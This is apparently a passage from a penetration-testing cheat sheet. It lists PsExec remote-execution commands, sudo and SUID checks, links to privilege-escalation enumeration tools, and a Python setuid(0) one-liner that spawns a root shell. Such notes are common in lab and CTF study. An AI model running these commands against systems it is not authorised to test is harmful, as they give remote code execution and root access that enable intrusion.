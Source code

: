 - PsExec

```
$ python psexec.py <username>:<password>@<IP address>
$ python psexec.py <username>@<IP address>
```

#5. - Privilege Escalation
-----------------------------------------

- Sudo

```
$ sudo -l
$ sudo -u <user> /bin/bash
```

- SUID

```
https://github.com/Anon-Exploiter/SUID3NUM
```

- WinPEAS

```
https://github.com/carlospolop/PEASS-ng
```

- LinPEAS

```
https://github.com/carlospolop/PEASS-ng
```

- LinEnum

```
https://github.com/rebootuser/LinEnum
```

- Linuxprivchecker

```
https://github.com/sleventyeleven/linuxprivchecker
```

- Capabilities

```
$ getcap -r / 2>/dev/null
CAP_SETUID
```

- Python

```
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
